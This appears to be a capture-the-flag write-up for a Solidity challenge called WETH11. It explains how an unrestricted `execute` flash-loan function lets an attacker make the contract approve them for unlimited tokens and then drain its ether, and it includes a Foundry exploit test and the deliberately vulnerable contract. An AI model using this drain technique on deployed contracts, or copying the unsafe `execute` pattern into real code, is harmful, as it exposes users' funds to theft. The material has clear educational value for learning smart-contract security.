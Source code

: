 ## WETH11 attack

The WETH11 contract is a normal ERC20 token where tokens can be minted via depositing ether to the contract.  

The vulnarability is in the `execute` function. You can use this function to get unlimited approvals for the WETH11 contract when you just flashloan to itself and approve an unlimited amount of tokens for bob.

1. `aprove` unlimited amount via `execute` for bob
2. transfer all tokens from WETH11 to bob
3. bob can now withdraw all tokens

## Test
forge test --match-contract=Weth11Test

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "forge-std/Test.sol";

import {ERC20} from "openzeppelin/contracts/token/ERC20/ERC20.sol";
import {ReentrancyGuard} from "openzeppelin/contracts/security/ReentrancyGuard.sol";
import {Address} from "openzeppelin/contracts/utils/Address.sol";

import "openzeppelin/contracts/interfaces/IERC20.sol";

contract Weth11Test is Test {
    WETH11 public weth;
    address owner;
    address bob;

    function setUp() public {
        weth = new WETH11();
        bob = makeAddr("bob");

        vm.deal(address(bob), 10 ether);
        vm.startPrank(bob);
        weth.deposit{value: 10 ether}();
        weth.transfer(address(weth), 10 ether);
        vm.stopPrank();
    }

    function testHack() public {
        assertEq(
            weth.balanceOf(address(weth)),
            10 ether,
            "weth contract should have 10 ether"
        );

        vm.startPrank(bob);

        // hack time!
        weth.execute(address(weth), 0 ether, abi.encodeWithSelector(ERC20.approve.selector, address(bob), type(uint256).max));
        weth.transferFrom(address(weth), address(bob), 10 ether);
        weth.withdrawAll();

        vm.stopPrank();

        assertEq(address(weth).balance, 0, "empty weth contract");
        assertEq(
            weth.balanceOf(address(weth)),
            0,
            "empty weth on weth contract"
        );

        assertEq(
            bob.balance,
            10 ether,
            "player should recover initial 10 ethers"
        );
    }
}

// The Angel Di Maria Wrapped Ether
contract WETH11 is ERC20("Angel Di Maria Wrapped Ether", "WETH11"), ReentrancyGuard {
    receive() external payable {
        deposit();
    }

    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }

    function deposit() public payable nonReentrant {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) external nonReentrant {
        _burn(msg.sender, wad);
        Address.sendValue(payable(msg.sender), wad);
       
    }

    function withdrawAll() external nonReentrant {
        uint256 balance = balanceOf(msg.sender);
        _burnAll();
        Address.sendValue(payable(msg.sender), balance);
        
    }

    /// @notice Request a flash loan in ETH
    function execute(address receiver, uint256 amount, bytes calldata data) external nonReentrant {
        uint256 prevBalance = address(this).balance;
        Address.functionCallWithValue(receiver, data, amount);

        require(address(this).balance >= prevBalance, "flash loan not returned");
    }
}
```